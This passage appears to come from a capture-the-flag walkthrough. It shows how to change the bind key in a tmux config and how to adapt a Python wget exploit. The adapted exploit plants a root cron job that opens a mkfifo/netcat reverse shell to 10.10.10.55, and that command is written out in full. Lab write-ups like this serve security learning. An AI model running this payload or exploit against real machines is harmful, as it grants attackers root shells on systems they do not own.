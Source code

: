 *Starting next step, since we're going to do many things at the same time,* we will use `tmux` to **split up our terminal.**

*However, since we already use* `tmux` *on our kali,* we're going **to change the bind key** to **be able to interact with both** `tmux` **instances.**

here's what the `~/.tmux.conf` file should look like:

```
set-option -g prefix C-a
set -g default-terminal "xterm-256color"
```

the second line is **for preserving colors** within `tmux` sessions. *Quality of life stuff xD*

### Step #2: Getting the python exploit and modifying it

*After fetching the exploit,* we have to **modify a few lines** to suit our needs.

Below is the **default exploit code:**

```python
HTTP_LISTEN_IP = '192.168.57.1'
HTTP_LISTEN_PORT = 80
FTP_HOST = '192.168.57.1'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"
```

- We're going to **listen on all interfaces with the web server**. so we should set the `HTTP_LISTEN_IP` variable to `0.0.0.0`.
- The same **wouldn't work for the FTP server**. because the victim **must have our machine's IP in the redirection** to reach it.
- *Finally,* we need to switch up the `/usr/bin/id > /root/hacked-via-wget` cron job command to something more serious ***a.k.a. a reverse shell :D***

*After modification,* it should look like this:

```python
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21

ROOT_CRON = "* * * * * root rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc 10.10.10.55 9000 > /tmp/pipe; rm /tmp/pipe \n"
```

we use the `mkfifo` reverse shell because **it works across many linux distros** and **has just been reliable :]**

and **we're making the 10.10.10.55 machine catch the shell** because **we're not yet sure about our kali being reachable from 10.0.3.133.**

### Step #3: Receiving the first wget

*A few moments after starting the FTP server and the* `python` *exploit,* we caught something.
